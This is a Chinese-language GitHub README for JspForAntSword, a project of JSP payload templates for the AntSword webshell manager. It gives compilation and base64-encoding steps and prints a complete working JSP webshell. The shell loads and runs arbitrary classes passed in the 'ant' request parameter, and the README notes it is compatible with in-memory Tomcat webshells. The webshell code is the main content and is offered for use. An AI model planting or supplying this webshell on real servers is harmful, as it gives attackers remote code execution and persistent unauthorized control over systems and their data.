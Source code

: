 ## 项目已移动至[蚁剑官方仓库](https://github.com/AntSwordProject/AntSword-JSP-Template)，本项目不再更新。
# JspForAntSword  v1.1
中国蚁剑JSP一句话Payload

详细介绍： https://yzddmr6.tk/posts/antsword-diy-3/

环境： jdk1.6  tomcat7

## 编译

### 手动编译

```
javac -cp "D:/xxxx/lib/servlet-api.jar;D:/xxx/lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

### 自动编译

在build.py中替换你的javac路径跟lib路径后，在当前目录下运行，即可对当前路径下所有.java文件进行编译以及生成base64格式的payload。

```
python3 build.py
```

## Shell

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

其中`pageContext`可以替换为`request`或者`response`，以实现对Tomcat内存Webshell的兼容

## 更新日志

### v1.1

1. 增加对Tomcat内存Webshell的兼容
2. 兼容高版本JDK（JDK7-14）

### v 1.0

1. release
